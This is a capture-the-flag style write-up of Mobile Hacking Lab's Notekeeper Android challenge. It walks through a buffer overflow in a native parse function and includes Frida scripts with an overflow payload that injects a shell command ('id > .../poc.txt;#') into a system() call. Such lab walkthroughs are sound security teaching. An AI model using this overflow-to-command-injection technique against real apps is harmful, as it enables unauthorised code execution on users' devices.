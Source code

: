 ```yaml
---
title:  "Mobile Hacking Lab Notekeeper Writeup"
date:   2024-01-22T16:33:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for [Notekeeper](https://www.mobilehackinglab.com/course/lab-notekeeper) challenge from Mobile Hacking Lab. 

## Static Analysis
When we open the app in emulator, it opens a blank screen and with button and with this button we can create notes. When we examine the manifest file, we see that we have one activity(MainActivity). Let's start with it.

### MainActivity

At the beginning of this activity, we see this line:
```java
public final native String parse(String str);
```
It means that we have a native library and we will use `parse` function from this lib file. 

![](./assets/images_mhl_notekeeper/lib.png)

There is a one libnotekeeper.so file inside the apk. But this library file compiled only for arm64-v8a architecture. Because of that i can't run this app on genymotion vm (my pc don't have arm cpu). [Also arm translation tools not supports arm v8 arch.](https://support.genymotion.com/hc/en-us/articles/360010029677-How-to-run-applications-for-arm64-aarch64-armv8#:~:text=Genymotion%20Desktop,PC%20(Windows%2FLinux).) So, I have used corellium instance that provided by MobileHackingLab. 

![](./assets/images_mhl_notekeeper/parse.png)

When we adding a new note, title string passed to parse function from native lib. We can analyze native library file with ghidra decompiler.

![](./assets/images_mhl_notekeeper/ghidra.png)

Inside this function our title variable copied to another char array with for loop. But for loop count, our title's lenght is used and `local_2a4` array have 100 char size. What happens if we give a title longer than 100 characters? 

Also we can see that with memcpy function, `Log \"Note added at $(date)\` string copied to `acStack576` variable and later it will passed to the system function for executing code.👀

I wrote a small frida script for tracing the parameters of `system` and `parse` fucntions. I cant copy-paste from my pc to corellium instance and with this script i can change the argument of parse method with this script easily.

```js
Java.perform(function(){
    let MainActivity = Java.use("com.mobilehackinglab.notekeeper.MainActivity");
    const JavaString = Java.use('java.lang.String');

    MainActivity["parse"].implementation = function(str){
        const payload = JavaString.$new("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEF);
        console.log("parse func called with this arg ==> " + payload);
        const new_ret = this["parse"](payload);
        return new_ret;
    }
});

Interceptor.attach(Module.getExportByName('libc.so', 'system'), {
    onEnter(args) {
        var param1 = Memory.readUtf8String(args[0]);
        console.log("system function param1 ==> " + param1);
    },
    onLeave(retval) {
      
    }
});
```

This time i gave `100*"A" + "BCDEF"` to title. Lets see whats happened:

![](./assets/images_mhl_notekeeper/frida_test2.png)

We have succesfully overwite to `acStack576` variable and our input passed to system function. To understand better, we can use hexdump to follow memory state.

![](./assets/images_mhl_notekeeper/memory1.png)

As seen in screnshot, our title variable written before the text passed to stsyem function. If we can give input longer than 100 char, its overwritten.

![](./assets/images_mhl_notekeeper/memory2.png)

### Code Execution

If we can overwite `system` function argument, we can run command what we want. For testing, i run a http server and from phone, i will download it to app's local directory.

```js
Java.perform(function(){
    let MainActivity = Java.use("com.mobilehackinglab.notekeeper.MainActivity");
    const JavaString = Java.use('java.lang.String');
    MainActivity["parse"].implementation = function(str){
        const payload = JavaString.$new("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAid > /data/data/com.mobilehackinglab.notekeeper/poc.txt;#");
        console.log("parse func called with this arg ==> " + payload);
        const new_ret = this["parse"](payload);
        return new_ret;
    }
});

Interceptor.attach(Module.getExportByName('libc.so', 'system'), {
    onEnter(args) {
        var param1 = Memory.readUtf8String(args[0]);
        console.log("system function param1 ==> " + param1);
    },
    onLeave(retval) {
      
    }
});

```

![](./assets/images_mhl_notekeeper/poc1.png)

We can execute command🎉🎉🎉
Here is the poc video with another command:

[![](https://img.youtube.com/vi/8RmEMxs_Lpk/0.jpg)](https://youtu.be/8RmEMxs_Lpk)

Thanks for reading! See you in next writeups 👋🏻👋🏻